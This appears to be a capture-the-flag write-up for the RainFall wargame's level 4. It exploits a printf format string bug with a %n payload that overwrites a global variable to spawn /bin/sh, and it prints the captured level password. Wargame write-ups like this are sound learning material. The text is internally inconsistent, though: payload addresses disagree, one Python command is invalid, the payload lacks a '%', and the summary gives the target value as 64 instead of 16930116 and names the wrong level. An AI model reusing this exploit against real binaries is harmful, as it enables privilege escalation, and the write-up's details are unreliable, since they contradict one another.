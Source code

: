 # Level4

## Objective

The goal of Level 4 is to escalate from `level4` to `level5` by exploiting a format string vulnerability in the `level4` binary. By the end, you should be able to read the password for `level4`.

---

## Step 1: Examine the Binary

After switching to `level4`:

```bash
level4@RainFall:~$ ls
level4
```

Running the binary:

```bash
level4@RainFall:~$ ./level4
Hello
Hello
```

The program simply echoes back what we type, but suspiciously uses `printf()` directly with user input.

---

## Step 2: Investigate with `ltrace`

```bash
level4@RainFall:~$ ltrace ./level4
printf("test") = 4
```

We see that `printf()` is called **without a format string**, which means our input is treated as the format string itself.

---

## Step 3: Test with Format Specifiers

```bash
level4@RainFall:~$ ./level4
%p %p %p %p
0xbffff744 0xb7fd0ff4 0x80484b7 0x25207025
```

We can dump stack values using `%p`. This confirms a **format string vulnerability**.

I'm sure you want to understand whats the point here. The `%n` reads the input and write the number of bytes he read right after.
Yes, if we make him read a sequence of chosen numbers he will possibly over-write the number corresponding. (to an adress maybe ?)

---

## Step 4: Lets try to disass functions.

We found two functions, `p()` and `n()`.
* **`p()` uses printf,
* **`n()` - reads our input,
      - calls `p()`,
      - gives a value to m (a global variable empty so far) [0x8049810]
      - compare m with 0x1025544
      - if m != jump to an exit
      - else run `/bin/sh`

The goal here is clear give m the right value to pass the cmp and execute the syscall.

---

## Step 5: So what's the expected input?

We want to overwrite a global variable called `m` that controls access to the target function. The program wants m to be equal to `16930116` in decimal.

Therefore, our goal is to use `%n` to write the value `16930116` into the memory address of `m`.

---

## Step 6: Find the ofset

```bash
python -c 'print "aaaa" + "%x" + 15' > /tmp/exploit
cat /tmp/exploit | ./level4
```
The ofset is at the 12th position, meaning that the first arg given to printf appears at the 12th position.

We inject the address of `m` into the input, followed by a format string to write `16930116` bytes before using `%n`.
Also it needs to be written at the 12th position.

```bash
python -c 'print "\x10\x98\x04\x08" + "16930112d%12$n"' > /tmp/exploit
```

Explanation:

* `\x8c\x98\x04\x08` → address of `m` in little-endian.
* `16930112d` → prints 16930112 decimals.
* `%12$n` → our `m` address.

---

## Step 7: Run Exploit

```bash
level4@RainFall:~$ cat /tmp/exploit | ./level4
                                                                                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

We successfully overwrite `m` and trigger the hidden shell.

---

## Step 8: Summary

* **Vulnerability:** format string bug (`printf(user_input)`).
* **Offset:** writing with `%n` directly to the global variable `m`.
* **Target:** set `m = 64` to unlock `system("/bin/sh")`.
* **Outcome:** gained a shell as `level4` and retrieved the password.

> With this, you can `su level4` using the password.




